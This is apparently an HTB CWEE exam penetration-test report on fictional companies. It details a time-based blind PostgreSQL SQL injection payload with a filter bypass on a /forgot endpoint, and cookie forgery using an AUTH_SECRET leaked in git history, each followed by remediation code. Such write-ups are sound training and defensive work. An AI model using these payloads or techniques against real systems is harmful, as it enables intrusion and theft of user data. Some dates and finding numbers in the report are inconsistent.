






# CWEE EXAM {#cwee-exam}

## Table of Contents {#table-of-contents}

* [CWEE EXAM](#cwee-exam)
    * [Table of Contents](#table-of-contents)
    * [Meta](#meta)
    * [Executive Summary](#executive-summary)
    * [Scope](#scope)
    * [Web Application Security Assessment Summary](#web-application-security-assessment-summary)
    * [Findings](#findings)
        * [SQL Injection at https://www.royalflush.htb/forgot](#f7111d6e-f236-41a6-8604-e248aea5426c)
        * [Leaked AUTH_SECRET → cookie forgery](#2f5bc430-0879-431e-89a9-4e66141b48f2)
        * [Role-upgrade bypass via parameter logic flaw (fookey)](#ef542905-12d7-4c90-890a-b95396542be5)
        * [Leaked credentials charles:charles on forum.royalflush.htb](#28049f2f-465c-4337-ac38-1f4f6bdde7c0)
        * [No domain restriction at registration](#009c6a45-40b2-44ee-8c6b-769c061549e0)
        * [NoSQL Injection at verify-email endpoint forum.royalflush.htb](#b5ce6c43-ed46-4f81-8e44-30a5e758daae)
        * [Creds Leak at forum.royalflush.htb](#11975b2f-d6df-4f75-989c-19dd279e2467)
        * [SQL Injection at Vault.royalflush.htb](#3d54335f-b7d9-4631-b09e-78cdc0d306a8)
        * [.NET BinaryFormatter deserialization](#0038712a-c54f-41b6-bad2-da0c98d68114)
        * [Logic Flaw on Storage.vitamedix.htb → SMTP credentials leak](#a5772f07-ca79-4f30-9424-51762dbe1fc8)
        * [LDAP injection at ldap.vitamedix.htb](#6bfa3977-88f0-4c2c-91d3-978ce8913206)
        * [Valid email enumeration via forgot-password self-service (michael@vitamedix.htb)](#5296e7d1-3552-4af2-8303-4f39f503ee54)
        * [Email header injection (CRLF) in password reset](#d344076c-001e-4d19-acab-ec9e495fab71)
        * [NoSQL Injection in /api/validateToken www.vitamedix.htb](#aaa9d649-31b9-4592-992d-51182c427f73)
        * [DNS.vitamedix:8006 Pi-hole password leak (WEBPASSWORD: pihole)](#0f92f352-828c-4b46-b853-6592beec8b3d)
        * [DNS rebind => CSRF => Stored Cross-Site Scripting (XSS) => Admin cookie theft](#edb020c8-9ce8-4b17-9b9e-5f074ae0f552)
    * [Appendix](#appendix)
        * [Finding Severities](#finding-severities)
        * [Flags Discovered](#flags-discovered)
        * [Exploits](#exploits)

## Meta {#meta}

### HTB Logo


### Report Date


### HTB Candidate

**Full Name**

Al-hassan Ahmed Habib

**Title**

Web penetration tester

**Email**

Habibhassan293@gmail.com


### Engagement Contacts


| Company Contacts      |                         |                                                     |
| --------------------- | ----------------------- | --------------------------------------------------- |
| **Primary Contact**   | **Title**               | **Primary Contact Email**                           |
| Yelon Husk            | Chief Executive Officer | [yelon@royalflush.htb](mailto:yelon@royalflush.htb) |
| **Secondary Contact** | **Title**               | **Secondary Contact Email**                         |
| Zeyad AlMadani        | Chief Technical Officer | [zeyad@securedata.htb](mailto:zeyad@securedata.htb) |

| Assessor Contact  |            |                            |
| ----------------- | ---------- | -------------------------- |
| **Assessor Name** | **Title**  | **Assessor Contact Email** |
| Alhassan Ahmed Habib        | Web Penetration tester | Habibhassan293@gmail.com                 |


### Statement of Confidentiality

The contents of this document have been developed by Hack The Box. Hack The Box considers the contents of this document to be proprietary and business confidential information. This information is to be used only in the performance of its intended use. This document may not be released to another vendor, business partner or contractor without prior written consent from Hack The Box. Additionally, no portion of this document may be communicated, reproduced, copied or distributed without the prior consent of Hack The Box.

The contents of this document do not constitute legal advice. Hack The Box's offer of services that relate to compliance, litigation or other legal interests are not intended as legal counsel and should not be taken as such. The assessment detailed herein is against a fictional company for training and examination purposes, and the vulnerabilities in no way affect Hack The Box external or internal infrastructure.


## Executive Summary {#executive-summary}

Royal Flush Ltd. ("RoyalFlush" herein), Secure Data Ltd. ("SecureData" herein), and Vita Medix Ltd. ("VitaMedix" herein), have invited 
Alhassan Ahmed Habib
to perform a targeted Web Application Penetration Test of their web applications to identify high-risk security weaknesses, assess their impact, document all findings in a clear, professional, and repeatable manner, and provide remediation recommendations.

All web-related findings were considered in-scope, as long as they can be proven harmful to the client with a Medium-High impact. The following types of activities were considered out-of-scope for this test:

* Physical attacks against the clients' properties
* Unverified scanner output
* Any vulnerabilities identified through DDoS or spam attacks
* Vulnerabilities in third-party libraries unless they can be leveraged to impact the target significantly
* Any theoretical attacks or attacks that require significant user interaction or are considered low-risk


## Approach

The tester performed testing under a mixture of "blackbox" and a "whitebox" approach from 8/8/2026 to 17/8/20256, as follows:


* `RoyalFlush` A whitebox penetration test was carried out against their targets, with access to their web applications' source code on `http://git.royalflush.htb/`.
* `SecureData` A blackbox penetration test was performed, with no further details or access to their web applications.
* `VitaMedix` A mixture of blackbox and whitebox was carried out against all web applications under their sub-domains.

Testing was performed remotely from a non-evasive standpoint, with the goal of uncovering as many misconfigurations and vulnerabilities as possible. Each weakness identified was documented and manually investigated to determine exploitation possibilities and escalation potential.

The tester sought to demonstrate the full impact of every vulnerability, up to and including internal network access. Furthermore,The tester has also documented the sources of vulnerabilities that were identified through source code analysis, and provided recommended patches to fix them.


## Scope {#scope}

The scope of this assessment was as follows:


| **URL**              | **Description**             |
| -------------------- | --------------------------- |
| www.royalflush.htb   | Main RoyalFlush website     |
| git.royalflush.htb   | RoyalFlush Git Repositories |
| forum.royalflush.htb | RoyalFlush Forums           |
| vault.royalflush.htb | RoyalFlush Secure Vault     |
| \*.securedata.htb    | SecureData web app(s)       |
| \*.vitamedix.htb     | VitaMedix web app(s)        |


## Web Application Security Assessment Summary {#web-application-security-assessment-summary}

### Summary of Findings

During the course of testing, The tester uncovered a total of 22 of findings that pose a material risk to clients' web applications and systems. The below table provides a summary of the findings by severity level.

 

| Finding Severity |          |            |           |           |           |
| ---------------- | -------- | ---------- | --------- | --------- | --------- |
| **Critical**     | **High** | **Medium** | **Low**   | **Info**  | **Total** |
| **6**            | **12**    | **3**      | **1**     | **0**     | **22**     |

Below is a high-level overview of each finding identified during the course of testing. These findings are covered in depth in the [Technical Findings Details](#technical-findings-details) section of this report.


| Finding # | Severity Level | Finding Name                 |
| --------- | -------------- | ---------------------------- |
| 1. SQL Injection at https://www.royalflush.htb/forgot          | **Critical**   | SQL INJECTION         |
| 2.   SQL Injection at Vault.royalflush.htb       | **Critical**        | SQL INJECTION |
| 3.   .NET BinaryFormatter deserialization       | **Critical**        | RCE |
| 4.    Leaked AUTH_SECRET → cookie forgery      | **Critical**     | Leaked AUTH_SECRET      |
| 5.   RCE via eval on newsletter.vitamedix.htb       | **Critical**        | RCE |
| 13.    DNS.vitamedix:8006 Pi-hole password leak (WEBPASSWORD: pihole)    | **Critical**        | Information Discolsure |
| 6.     Role-upgrade bypass via parameter logic flaw (fookey)    | **High**        | Logic Flaw |
| 7.    NoSQL Injection at verify-email endpoint forum.royalflush.htb    | **High**        | NoSQL Injection|
| 8.    No domain restriction at registration    | **High**        | Logic Flaw |
| 9.    Creds Leak at forum.royalflush.htb    | **High**        | Information Discolsure |
| 10.     LDAP injection at ldap.vitamedix.htb    | **High**        | LDAP Injection |
| 11.  Logic Flaw on Storage.vitamedix.htb → SMTP credentials leak       | **High**        | Logic Flaw |
| 12.     Email header injection (CRLF) in password reset   | **High**        | CRLF Injection |
| 14.   PDF generation SSRF via DNS rebinder → internal CouchDB access      | **High**        | DNS rebind  |
| 15.    NoSQL Injection in verifyToken    | **High**        | NoSQL Injection|
| 16.    DNS rebind =>Stored Cross-Site Scripting (XSS) => Admin cookie theft    | **High**        | Cross Site Scripting |
| 17.   XPath injection in q parameter at query.php&home.php       | **High**        | Xpath Injection |
| 18.   Leaked credentials of testdeveloper at Securedata    | **High**        | Information Disclosure |
| 19.    Race condition on admin_panel.php     | **Medium**        | Race Condition |
| 20.   Leaked credentials charles:charles on forum.royalflush.htb     | **Mediun**        | Leaked Credentials |
| 21.     Valid email enumeration via forgot-password self-service (michael@vitamedix.htb)   | **Medium**        | Email Enumeration |
| 22.   Leaked Internal URL in www.vitamedix.htb     | **low**        | Information Discolsure |


### Assessment Overview and Recommendations

                                                                                                                                                                                          
   During the course of testing, 22 material findings were identified across the RoyalFlush, VitaMedix, and SecureData environments. The findings are predominantly rated Critical and High, 
   reflecting severe, readily exploitable weaknesses that expose the applications to unauthorized access, remote code execution, and lateral movement into internal infrastructure.          
                                                                                                                                                                                                                                                                                                           
                                                                                                                                                                                             
   ────────────────────────────────────────────────────────────────────────────────                                                                                                          
                                                                                                                                                                                             
   #### RoyalFlush                                                                                                                                                                                
                                                                                                                                                                                             
   RoyalFlush exhibited multiple severe vulnerabilities that allow complete compromise of user accounts and the underlying server.                                                           
                                                                                                                                                                                             
   • SQL Injection at /forgot (Finding #1, Critical): Enables unauthenticated extraction of usernames, email addresses, and password hashes from the database.                               
   • Leaked AUTH_SECRET → cookie forgery (Finding #4, Critical): Allows an attacker to forge authentication cookies for administrative users.                                                
   • SQL Injection in Vault.royalflush.htb (Finding #2, Critical): Permits authenticated database access and file reads.                                                                     
   • .NET BinaryFormatter deserialization (Finding #3, Critical): Leads to remote code execution on the Vault server.                                                                        
   • Role-upgrade logic flaw via fookey (Finding #6, High): Bypasses API key validation through parameter pollution.                                                                         
   • Hardcoded credentials charles:charles (Finding #7, High): Default/weak credentials on the forum.                                                                                        
   • NoSQL Injection at verify-email (Finding #8, High): Allows manipulation of email verification queries.                                                                                  
   • No domain restriction at registration (Finding #9, High): Permits registration using arbitrary domains.                                                                                 
   • Credential exposure on the forum (Finding #10, High): Additional passwords and emails disclosed in forum responses.                                                                     
                                                                                                                                                                                             
   ###### Overall risk: The combination of SQL injection, hardcoded secrets, and weak authentication controls places RoyalFlush at critical risk of full compromise.                              
                                                                                                                                                                                             
   ────────────────────────────────────────────────────────────────────────────────                                                                                                          
                                                                                                                                                                                             
 ####  VitaMedix                                                                                                                                                                                 
                                                                                                                                                                                             
   VitaMedix contains a critical remote-code-execution weakness and several high-severity input-validation and access-control flaws.                                                         
                                                                                                                                                                                             
   • RCE via eval (Finding #5, Critical): User-supplied input is passed directly to eval() on newsletter.vitamedix.htb.                                                                      
   • LDAP injection (Finding #11, High): Enables username/password enumeration via ldap.vitamedix.htb.                                                                                       
   • BOLA/IDOR on Storage.vitamedix.htb (Finding #12, High): render.php reads arbitrary file IDs from session without ownership checks, leaking SMTP credentials.                            
   • Email header injection (CRLF) (Finding #13, High): Allows header manipulation in password-reset emails.                                                                                 
   • Pi-hole password leak (Finding #14, High): WEBPASSWORD: pihole exposed for DNS.vitamedix:8006.                                                                                          
   • PDF generation SSRF via DNS rebinder (Finding #15, High): Forces the PDF generator to fetch internal CouchDB content.                                                                   
   • NoSQL Injection in verifyToken (Finding #16, High): Regex-based NoSQL injection leaks account-creation tokens.                                                                          
   • Stored XSS (Finding #17, High): Payload stored in user settings executes in the admin browser.                                                                                          
   • Valid email disclosure (Finding #21, Low): Forgot-password response confirms michael@vitamedix.htb.                                                                                     
   • Internal URL leak (Finding #22, Low): Internal URL exposed in www.vitamedix.htb source code.                                                                                            
                                                                                                                                                                                             
  ###### Overall risk: Insecure evaluation, injection flaws, and broken access controls expose VitaMedix to critical remote compromise and internal service access.                              
                                                                                                                                                                                             
   ────────────────────────────────────────────────────────────────────────────────                                                                                                          
                                                                                                                                                                                             
   #### SecureData                                                                                                                                                                                
                                                                                                                                                                                             
   SecureData contained three findings, all rated High or lower.                                                                                                                             
                                                                                                                                                                                             
   • XPath injection in q parameter (Finding #18, High): Manipulation of XML queries at query.php / home.php.                                                                                
   • Leaked testdeveloper credentials (Finding #19, High): Authentication material exposed in the application.                                                                               
   • Race condition on admin_panel.php (Finding #20, Medium): Simultaneous privileged/unprivileged requests can return the admin panel.                                                      
                                                                                                                                                                                             
   ###### Overall risk: These weaknesses present meaningful risk to SecureData's confidentiality and integrity, though they are less severe than the Critical findings in RoyalFlush and  VitaMedix.                                                                                                                                                                              
                                                                                                                                                                                             
   ────────────────────────────────────────────────────────────────────────────────                                                                                                          
                                                                                                                                                                                             
   ### Key Recommendations                                                                                                                                                                       
                                                                                                                                                                                             
   1. Eliminate injection vulnerabilities by parameterizing all database, LDAP, XPath, and NoSQL queries, and enforce strict allow-lists for user input (Findings #1, #2, #8, #11, #16, #18).
   2. Rotate and protect secrets — move AUTH_SECRET, SMTP credentials, Pi-hole WEBPASSWORD, and developer credentials into a secrets manager or environment variables (Findings #4, #12, #14,
      #19).                                                                                                                                                                                  
   3. Disable dangerous evaluation functions such as eval() and replace them with safe parsers (Finding #5).                                                                                 
   4. Replace insecure deserialization — migrate from .NET BinaryFormatter to JsonSerializer and cryptographically sign serialized data (Finding #3).                                        
   5. Enforce authorization on every endpoint, ensuring users cannot access others' resources or manipulate role/token parameters (Findings #6, #12, #16, #20).                              
   6. Harden email handling by sanitizing input to prevent CRLF injection and restricting registration to approved domains (Findings #9, #13, #21).                                          
   7. Mitigate XSS through output encoding, context-aware validation, and a restrictive Content Security Policy (Finding #17).                                                               
   8. Prevent SSRF in PDF generation and similar features by resolving hostnames internally and enforcing strict destination allow-lists (Finding #15).                                      
   9. Remove default or weak credentials, enforce multi-factor authentication for privileged accounts, and rotate credentials regularly (Findings #7, #10).                                  
   10. Conduct a source-code review to remove information disclosures such as internal URLs, stack traces, and verbose error messages from production responses (Finding #22).               
                                                                                                                                                                                             
###### Remediation priority: Address all Critical and High findings immediately to prevent full application or infrastructure compromise. Medium and Low findings should be remediated in the  next maintenance cycle.                                                                                                                                                                 
                               


## Findings {#findings}

### SQL Injection at https://www.royalflush.htb/forgot {#f7111d6e-f236-41a6-8604-e248aea5426c}

#### CWE

CWE-89

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N (9.3 - Critical)

#### Affected Component(s)

* https://www.royalflush.htb/forgot

#### External References

* https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

#### Description & Cause

#### Descripton
The /forgot password-reset endpoint is vulnerable to SQL Injection (CWE-89). User-supplied input is concatenated directly into a SQL query using Python string formatting, allowing an    
   attacker to alter the intended query structure and execute arbitrary SQL commands against the PostgreSQL backend. Although an anti_sqli decorator is applied to the route, it relies on a 
   blacklist-based regular expression that is trivially bypassed, leaving the underlying injection vector exposed.
   

   #### Affected Endpoint                                                                                                                                                                                                                                                                                                               
   • URL: /forgot                                                                                                                                                                            
   • Method: POST                                                                                                                                                                            
   • Parameter: email                                                                                                                                                                        
   • File: www/__init__.py                                                                                                                                                               
   • Line: 104 


   #### cause
   The application constructs the user lookup query by interpolating the email form value directly into the SQL string:                                                                      
                                                                                                                                                                                             
   ```python                                                                                                                                                                                 
     cursor.execute("SELECT user_id FROM users WHERE email = '%s'" % (email,))                                                                                                               
   ```                                                                                                                                                                                       
                                                                                                                                                                                             
   This approach trusts the raw user input to be a benign email address. Because the value is embedded inside the query string before it reaches the database driver or syntax supplied by the attacker are interpreted as part of the query itself.                                                                                                           
                                                                                                                                                                                             
   The route is decorated with @anti_sqli, but the implemented filter is a brittle blacklist that only blocks a narrow set of patterns and keywords. It does not enforce parameterized       
   queries at the data-access layer and can be circumvented using alternative PostgreSQL syntax — for example, the string-concatenation operator || combined with time-delay functions such  as pg_sleep() — to infer data through blind boolean/time-based techniques.

#### Security Impact

A successful SQL Injection (SQLi) attack targeting the `/forgot` endpoint allows an unauthenticated attacker to execute arbitrary SQL statements within the context of the application's PostgreSQL session.

Because the injected queries run with the privileges of the database user configured in `www/util/db.py`, an attacker can enumerate and exfiltrate data across all accessible databases, schemas, tables, and columns on the connected PostgreSQL instance.

### Database Schema Exposure (`royalflush`)

Within the primary application database (`royalflush`), the attacker can directly query and exfiltrate data from the following tables and columns:

| **Table**        | **Column**   | **Description / Impact**          |
| ---------------- | ------------ | --------------------------------- |
| **`users`**      | `user_id`    | Unique user identifier            |
|                  | `username`   | Account login name                |
|                  | `password`   | Hashed/plaintext user password    |
|                  | `email`      | User email address                |
|                  | `created_on` | Account creation timestamp        |
| **`roles`**      | `role_id`    | Role identifier                   |
|                  | `role_name`  | Name/level of privilege           |
| **`user_roles`** | `user_id`    | Foreign key linking user          |
|                  | `role_id`    | Foreign key linking role          |
| **`forgot`**     | `token`      | Active password reset token       |
|                  | `user_id`    | Foreign key mapping token to user |


#### Detailed Walkthrough


While reviewing `www/__init__.py`, The pentester identified an unauthenticated SQL injection vulnerability in the password reset (`/forgot`) endpoint. The backend constructs SQL queries using raw Python string formatting rather than parameterized statements:

Python

```
cursor.execute("SELECT user_id FROM users WHERE email = '%s'" % (email,))
```

Because user input from the `email` field is directly concatenated into the query, an attacker can manipulate the query structure. Although the application attempts to filter malicious inputs using an `@anti_sqli` decorator, the filter relies on simple regex patterns that are easily bypassed using alternative PostgreSQL syntax.

### How We Confirmed It

We verified the flaw by issuing a time-based blind SQL injection payload in the `email` parameter:

**Payload submitted:**

Plaintext

```
asd%40me.c'||+(SELECT+pg_sleep(10)::text)||'
```

**Resulting SQL query on the server:**

SQL

```
SELECT user_id FROM users WHERE email = 'asd@me.c' || (SELECT pg_sleep(10)::text) || ''
```

The database evaluated `pg_sleep(10)` during string concatenation, introducing an intentional 10-second delay in the server's response. This confirmed that injected SQL commands execute directly against the backend PostgreSQL database.

{width="auto"}

then the pentester created a script to dumb usernames and email of users 

[www.royalflush.htb-forgot-SQLI.py](exploits/www.royalflush.htb-forgot-SQLI.py)

this lead to dump of user data 
`chandlerjoseph:<lbrown@hotmail.com>
`

### Why the `@anti_sqli` Filter Failed

The `@anti_sqli` decorator attempts to block attacks by searching for common SQL keywords and character sequences (like `;` or `--`). However, blacklist filters are almost always incomplete. In this case, the filter failed because the payload:

* Used string concatenation (`||` and `+`) instead of standard SQL operators blocked by the regex.
* Avoided restricted characters like semicolons or comment markers.
* Employed PostgreSQL-specific functions (`pg_sleep`) that weren't included in the blocklist.

This highlights a fundamental issue: pattern-based filtering cannot reliably stop SQL injection because there are too many valid syntax variations in modern database engines.


#### Patching and Remediation

### Primary Fix: Implementation of Parameterized Queries

The vulnerability stems from user input being directly concatenated into the SQL statement via Python string formatting:


```python
# Vulnerable Code:
cursor.execute("SELECT user_id FROM users WHERE email = '%s'" % (email,))
```

To fix this, the raw string formatting must be replaced with a parameterized query. Passing the `email` value as a separate argument ensures the database driver treats it strictly as data, preventing the engine from executing arbitrary SQL payload structures:


```Python
@app.route('/forgot', methods=['GET', 'POST'])
def forgot():
    ...
    else:
        email = request.form.get('email', '').strip()
        
        if email:
            with db.connect() as conn:
                cursor = conn.cursor()
                # Correct Fix: Parameterized query using placeholders
                cursor.execute(
                    "SELECT user_id FROM users WHERE email = %s",
                    (email,)
                )
                row = cursor.fetchone()
                ...
```

### Additional Defensive Recommendations

#### 1. Eliminate Blacklist-Based Filters

Remove reliance on custom decorators like `@anti_sqli`. Blacklist filters are easily bypassed because attackers can construct alternative SQL payloads. Parameterized queries should serve as the primary and only defense against SQL injection.

#### 2. Apply Parameterization Universally across Codebase

Ensure prepared statements or an Object-Relational Mapper (ORM) are used consistently across all database operations—including login, account settings, admin panels, and API endpoints—to eliminate similar hidden vulnerabilities elsewhere in the application.

#### 3. Implement Strict Input Validation

Validate that incoming parameters conform to expected formats before submitting them to the database handler. In this case, ensure the string is a valid email format before processing:


```python
import re

email_regex = re.compile(r'^[^@]+@[^@]+\.[^@]+$')

if not email_regex.match(email):
    return redirect(url_for('forgot', e='Invalid email address'))
```

#### 4. Enforce the Principle of Least Privilege

Restrict database user account permissions to only what is required for standard application function. The database user used by the Web app should not have elevated schema alteration, system command, or unnecessary write capabilities across unrelated tables.

#### 5. Set Up Logging & Abnormal Delay Alerts

Monitor application logs for suspicious characters or payload structures. Establish alerts for anomalous database response latencies (e.g., responses taking over 5–10 seconds), which typically signal active time-based blind SQL injection attempts.

#### 6. Retesting & Verification

Following implementation of the patch, the pentester should re-run the original time-based exploitation scripts to verify that response times remain consistent and data extraction is no longer possible.


### Leaked AUTH_SECRET → cookie forgery {#2f5bc430-0879-431e-89a9-4e66141b48f2}

#### CWE

CWE-798

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N (9.3 - Critical)

#### Affected Component(s)

* http://git.royalflush.htb/developer/www/commit/5f9583d60eadea5c7ac6fb1c0f6c7f10856f502b

#### External References


#### Description & Cause

### Finding: Hardcoded Secrets Exposed via Git Repository History

#### Description

During the repository analysis, the pentester discovered that the application’s full `.env` configuration file was committed in the initial Git commit. This file contained critical operational credentials, including database access passwords, keys used to sign Flask sessions, cookie authentication secrets, and administrative API keys.

Although the `.env` file was modified or removed in subsequent commits, the original secrets remain fully accessible within the repository’s commit history.

Because these security-sensitive values were exposed together, an attacker with repository access can chain them to achieve complete application compromise. Most notably, extracting `AUTH_SECRET` and `API_SECRET` allows for unauthenticated account takeovers and complete administrative privilege escalation.

#### Root Causes

##### 1. Commit of Production Secrets to Source Control

The `.env` file was included in the initial codebase commit. Version control systems retain full historical file contents even after a file is deleted or modified in later commits, leaving the credentials permanently exposed unless the Git history is rewritten or purged.

##### 2. Reliance on Static, Unrotated Secrets

The application relies on static, long-lived secrets across its environment without runtime binding or regular rotation:

* **`AUTH_SECRET`**: Signs and verifies all authentication cookies.
* **`API_SECRET`**: Controls access to administrative API endpoints.
* **`APP_SECRET`**: Secures Flask session state and CSRF tokens.
* **`DB_PASS`**: Authenticates directly to the backend PostgreSQL database.

None of these secrets are rotated, restricted by IP/client context, or backed by a server-side session store. Compromising a single secret provides persistent unauthorized access; exposing the entire `.env` file grants complete system control.

##### 3. Lack of Infrastructure and Code Separation

Sensitive environment configuration was stored alongside application source code rather than being injected dynamically at runtime via a dedicated secrets manager, environment-specific deployment pipeline, or secure vault.


#### Security Impact

### Exploitation Vectors & Impact Breakdown

With access to the leaked `.env` secrets, an attacker can exploit the application across multiple vectors:

* **Session Cookie Forgery (`AUTH_SECRET`)**

  Allows an attacker to forge valid authentication cookies for any account, enabling immediate account takeover—including full administrative access—without needing user credentials.

* **Administrative API Abuse (`API_SECRET`)**

  Bypasses standard authentication controls to directly invoke administrative endpoints such as `/api/changeUsername`, `/api/changeUserPassword`, and `/api/changeUserRole`.

* **Direct Database Access (`DB_USER` / `DB_PASS`)**

  Provides raw access to the backend PostgreSQL database, allowing an attacker to bypass application logic entirely to view, modify, or delete sensitive data across all tables.

* **Flask Session & CSRF Manipulation (`APP_SECRET`)**

  Enables the forgery of Flask session cookies and invalidates anti-CSRF protections, allowing attackers to perform actions on behalf of legitimate users.

* **Mail Relay Abuse (`SMTP_SERVER` / `SMTP_PORT`)**

  Exposes email relay infrastructure, allowing attackers to send unauthorized emails (e.g., phishing campaigns or spam) using the company's trusted domain.


#### Detailed Walkthrough

### Discovery

During a review of the application source code and commit history, the complete `.env` configuration file was identified in the repository's initial commit. Although modified in subsequent commits, the initial commit remained accessible in Git history. This file contained operational secrets, including `AUTH_SECRET`, which is used by the application to sign user authentication cookies.

### Secret Extraction & Mechanism Analysis

The `AUTH_SECRET` key was recovered from the historical `.env` file. Analysis of `www/util/auth.py` indicated that this secret is used to generate HMAC-SHA256 signatures over a YAML payload containing:

* `email`
* `username`
* `expires_at`

### Cookie Forgery

Using the recovered `AUTH_SECRET`, an authentication token was generated targeting a specific user account:

* **Email:** `lbrown@hotmail.com`
* **Username:** `chandlerjoseph`

#### Construction Steps

[www.royalflush.htb-JWT-Forgery.py](exploits/www.royalflush.htb-JWT-Forgery.py)

Output:

```
Email:    lbrown@hotmail.com
Username: chandlerjoseph
Cookie:   auth=mRrs0ml/xGSYtboCYb6paVx5eGs9r51O2jerqEC3j7BlbWFpbDogbGJyb3duQGhvdG1haWwuY29tCmV4cGlyZXNfYXQ6IDIxMDE1NjkzMjQKdXNlcm5hbWU6IGNoYW5kbGVyam9zZXBoCg==
Saved to: cookie_lbrown_hotmail_com.txt
```


### Verification & Impact

When the forged cookie was set in the browser and applied to subsequent application requests, the server accepted the token as legitimate:

* The session successfully authenticated as `lbrown@hotmail.com` (`chandlerjoseph`).
* Full access was granted to user-restricted endpoints, including `/settings` and role-specific portal functionality.
* Because the `expires_at` field within the payload is attacker-controlled, forged sessions can be set to remain valid indefinitely.

{width="auto"}


#### Patching and Remediation

### 1. Immediate Actions

* **Rotate all exposed secrets immediately:**

  * The following variables from the leaked `.env` file must be considered compromised and replaced:

    * `AUTH_SECRET`

    * `APP_SECRET`

    * `API_SECRET`

    * `DB_PASS`

  * *Note: After rotation, all existing sessions and API keys will be invalidated.*

* **Revoke direct database access if credentials were exposed:**

  * Because `DB_USER` and `DB_PASS` were leaked, assume the database may have been accessed directly.

  * Change the PostgreSQL password and review database access logs for unauthorized connections.

* **Invalidate all active sessions:**

  * Force all users to re-authenticate after rotating `AUTH_SECRET` and `APP_SECRET`.

### 2. Remove Secrets from Version-Control History

